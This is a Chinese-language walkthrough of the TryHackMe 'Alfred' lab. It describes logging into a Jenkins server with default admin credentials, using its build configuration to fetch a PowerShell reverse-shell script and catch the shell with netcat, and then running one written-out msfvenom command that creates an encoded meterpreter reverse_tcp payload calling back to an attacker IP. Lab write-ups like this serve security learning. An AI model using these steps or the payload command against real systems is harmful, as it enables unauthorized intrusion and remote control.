 # Alfred

**Alfred 是tryhackme的一台实验机器，虽然是容易级别的，但对于新手具有很大的参考价值**

- 查看靶机的开放的端口

![image-20210917214613285](http://cdn.mxrblog.cn/image-20210917214613285.png)



- 发现靶机开放了80和8080端口，网络服务器是Jetty，登录其web界面，根据google的结果，可以得知其网络服务器的默认用户名和密码都是admin，登录后进入project的配置文件界面

![image-20210917215035347](http://cdn.mxrblog.cn/image-20210917215035347.png)



- 在配置界面我们可以获取攻击机器发送的文件，并且将靶机本身的shell反弹给攻击机器

![image-20210917215221749](http://cdn.mxrblog.cn/image-20210917215221749.png)



- 在攻击机器上开启web服务，方便靶机获取攻击机器发送的文件，这里使用python3建立http服务

![image-20210917215449090](http://cdn.mxrblog.cn/image-20210917215449090.png)



- 通过tryhackme上面的教程我们可以复制粘贴上面的代码，然后接收到攻击机器发送的powershell类型的文件（如果攻击机器没有tryhackme上面说的powershell文件则自己需要通过google自己下载）

![image-20210917224002791](http://cdn.mxrblog.cn/image-20210917224002791.png)

- tryhackme上面提到的代码的作用是获取Invoke-PowerShellTcp.ps1文件以及在靶机上运行它，这个文件的作用是将靶机上的shell传给攻击机器，所以我们可以在攻击机器上使用necat建立一个监听端口，接收shell

![image-20210917221613248](http://cdn.mxrblog.cn/image-20210917221613248.png)



- 点击save后再点击Build Now，然后观察攻击机器上的http和nc服务，在这里可能无法将靶机的shell反弹给攻击机器，原因可能是在tryhackme网页上使用了中文翻译，粘贴代码后出现了问题，所以不翻译英文界面就行了，还有一种情况是Invoke-PowerShellTcp.ps1文件下载出现了问题，	起初我是用别人报告中的链接下载的，导致Build Now一直出现问题，当使用tryhackme给的链接，进入链接克隆下载整个github仓库后，使用里面的文件才不会出现问题

![image-20210918000158672](http://cdn.mxrblog.cn/image-20210918000158672.png)

![image-20210918000237473](http://cdn.mxrblog.cn/image-20210918000237473.png)

![image-20210918000933834](http://cdn.mxrblog.cn/image-20210918000933834.png)

- 找到user.txt

![image-20210918001309363](http://cdn.mxrblog.cn/image-20210918001309363.png)



### 使用msf

- 创建载荷

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.102.23 LPORT=4445 -f exe -o get8888.exe`

![image-20210918002809629](http://cdn.mxrblog.cn/image-20210918002809629.png)

- 在靶机上下载已经创建好的载荷，因为原来web服务器上已经存在了一个任务，不能通过修改config文件进行命令的实现，所以我们在被反弹的shell上实现命令（tryhackme已经给出命令）

![image-20210918003710136](http://cdn.mxrblog.cn/image-20210918003710136.png)

- 使用msf建立监听模块

![image-20210918005246878](http://cdn.mxrblog.cn/image-20210918005246878.png)

- 结果

![image-20210918005315197](http://cdn.mxrblog.cn/image-20210918005315197.png)

- 接下来没什么好说的了，按照提示一步一步来就行了

![image-20210918010948130](http://cdn.mxrblog.cn/image-20210918010948130.png)



